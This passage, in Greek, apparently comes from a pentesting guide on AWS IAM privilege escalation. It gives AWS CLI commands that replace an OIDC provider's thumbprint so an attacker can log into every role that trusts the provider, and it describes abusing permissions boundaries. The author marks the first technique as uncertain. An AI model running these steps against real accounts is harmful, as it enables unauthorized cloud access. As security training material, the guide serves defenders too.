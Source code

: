 (Δεν είμαι σίγουρος για αυτό) Εάν ένας επιτιθέμενος έχει αυτές τις **permissions**, μπορεί να προσθέσει ένα νέο **Thumbprint** και να καταφέρει να κάνει login σε όλους τους roles που εμπιστεύονται τον provider.
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
### `iam:PutUserPermissionsBoundary`

Αυτό το permissions επιτρέπει σε έναν attacker να ενημερώσει το permissions boundary ενός user, ενδεχομένως escalating τα privileges του, επιτρέποντάς του να πραγματοποιήσει actions που κανονικά περιορίζονται από τα existing permissions του.

## Αναφορές

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
